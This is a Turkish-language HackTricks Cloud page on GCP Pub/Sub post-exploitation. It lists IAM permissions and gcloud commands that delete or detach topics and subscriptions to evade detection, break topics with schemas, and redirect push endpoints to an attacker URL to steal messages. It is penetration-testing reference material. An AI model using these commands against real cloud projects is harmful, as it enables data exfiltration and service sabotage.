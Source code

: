 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfayı kontrol edin:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuya mesaj yayınlayın, **beklenmedik veriler göndermek** ve beklenmedik işlevleri tetiklemek veya güvenlik açıklarını istismar etmek için kullanışlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Bir aboneliğin mesaj almasını engellemek için kullanışlıdır, belki tespiti önlemek için.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını engellemek için kullanışlıdır, belki tespiti önlemek için.\
Abonelikler ona bağlı olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Konuyu bozmak için bazı ayarları güncellemek amacıyla bu izni kullanın, örneğin `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Önceki saldırılardan herhangi birini gerçekleştirmek için kendinize izin verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusundaki tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu **mesajları çekmek** için kullanın:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek**, bir günlük işleme sistemini veya benzer bir şeyi bozmak için faydalı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Bu izni, mesajların erişebileceğiniz bir yerde (URL, Big Query tablosu, Bucket) saklanması için bazı ayarları güncellemek veya sadece bunu bozmak için kullanın.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Kendinize daha önce bahsedilen saldırıları gerçekleştirmek için gerekli izinleri verin.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya ekleyin, böylece mesajlar şemayı karşılamaz ve bu nedenle konu bozulur.\
Eğer herhangi bir şema yoksa, bir tane oluşturmanız gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Bu, bir şemayı silmek gibi görünebilir, şemaya uymayan mesajlar gönderebileceksiniz. Ancak, şema silineceği için aslında hiçbir mesaj konuya girmeyecektir. Bu yüzden bu **FAYDASIZ**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Kendinize, daha önce bahsedilen saldırıları gerçekleştirmek için gereken izinleri verin.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Bu, ACK edilmemiş tüm mesajların anlık görüntüsünü oluşturacak ve bunları aboneliğe geri koyacaktır. Bir saldırgan için çok kullanışlı değil ama işte burada:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks** ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek hacking ipuçlarını paylaşın.

</details>
{% endhint %}
